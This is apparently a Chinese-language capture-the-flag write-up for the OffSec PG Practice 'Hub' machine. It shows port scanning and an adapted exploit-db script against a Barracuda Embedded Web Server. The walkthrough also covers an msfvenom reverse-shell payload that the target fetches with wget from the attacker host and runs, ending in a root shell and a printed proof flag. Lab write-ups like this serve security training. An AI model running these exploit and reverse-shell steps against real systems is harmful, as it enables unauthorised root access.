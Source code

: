 ###### tags: `Offsec` `PG Practice` `Easy` `Linux`

# Hub
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.204.25 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.204.25:22
Open 192.168.204.25:80
Open 192.168.204.25:8082
Open 192.168.204.25:9999

PORT     STATE SERVICE  REASON  VERSION
22/tcp   open  ssh      syn-ack OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
80/tcp   open  http     syn-ack nginx 1.18.0
8082/tcp open  http     syn-ack Barracuda Embedded Web Server
9999/tcp open  ssl/http syn-ack Barracuda Embedded Web Server
```

查看`192.168.204.25:8082`google搜尋到[edb-51550](https://www.exploit-db.com/exploits/51550)但要改的東西超多
```
# 51550.py
 82 r = s.post(f"http://{url}:8082/rtl/protected/wfslinks.lsp", data = data, verify = False ) # switching to https cause its easier to script lolz  
 99 r = s.get(f"http://{url}:8082/fs/")
126 r = s.post(f"http://{url}:8082/fs/", files=files)
130 r = s.get(f"http://{url}:8082/rev.lsp")
```

改完開nc，使用poc，得到的權限已經是root了，但因為這個shell很難用，再做一個shell出來比較好
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9001

┌──(kali㉿kali)-[~/pgplay]
└─$ python3 51550.py -r 192.168.204.25 -rp 8082 -l 192.168.45.242 -p 9001

┌──(kali㉿kali)-[~/pgplay]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.242 LPORT=9005 -f elf > shell_9005

┌──(kali㉿kali)-[~/pgplay]
└─$ rlwrap -cAr nc -nvlp9005

whoami
root
wget 192.168.45.242/shell_9005
chmod +x shell_9005
./shell_9005

python3 -c 'import pty; pty.spawn("/bin/bash")'
root@debian:/var/www/html#
```

在`/root`路徑可得proof.txt
```
root@debian:/root# cat proof.txt
f2c1ca0fee68f0087533d1b76fa6fe9c
```